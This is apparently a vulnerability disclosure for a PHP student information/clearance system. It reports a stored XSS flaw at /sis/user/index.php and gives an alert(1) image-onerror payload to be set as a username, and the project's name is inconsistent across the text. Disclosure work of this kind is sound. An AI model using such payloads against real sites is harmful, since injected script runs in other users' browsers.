

# Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.campcodes.com/](https://www.campcodes.com/)) has xss injection vulnerabilities, which can lead to the execution of malicious code.

1. BUG_Author: Jing Xiong

2. vendors: [Simple Student Information System in PHP MySQL Free Source Code](https://www.campcodes.com/projects/php/student-information-system-in-php/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location:  /sis/user/index.php

# Vulnerability Verification

[+] Payload:

```java
<image src=1 href=1 onerror="javascript:alert(1)"></image>
```

POC：
Set the XSS payload as the username, and any access will trigger the execution of malicious code.


## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：



